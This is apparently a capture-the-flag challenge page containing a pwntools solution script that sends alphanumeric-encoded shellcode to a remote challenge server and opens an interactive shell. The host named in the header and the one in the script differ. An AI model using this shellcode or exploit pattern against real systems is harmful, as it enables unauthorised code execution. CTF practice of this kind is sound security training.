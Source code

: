 #### Goals
 * Try to find the flag

#### Server Address
 * http://pwn.sniperoj.com:20004/

#### Solution
```python

#!/usr/bin/env python

from pwn import *

# Io = process("./shellcode")
Io = remote("pwn.sniperoj.cn", 30010)
shellcode = "TX-BTUU-BTUU-BTUUP\%IIII%0000-&%%%-%%%%-%%%%P%IIII%0000-+%%%-+%%%-*%%%P%IIII%0000-1(^e-1'^e-0'`gP%IIII%0000-3F52-3E42-2E42P%IIII%0000-FF/3-FE/2-EE.2P%IIII%0000-oQ:3-pQ:2-qQ:2P%IIII%0000-EgW^-EgW_-EhY`PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP"
payload = shellcode
Io.sendline(payload)
Io.interactive()
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

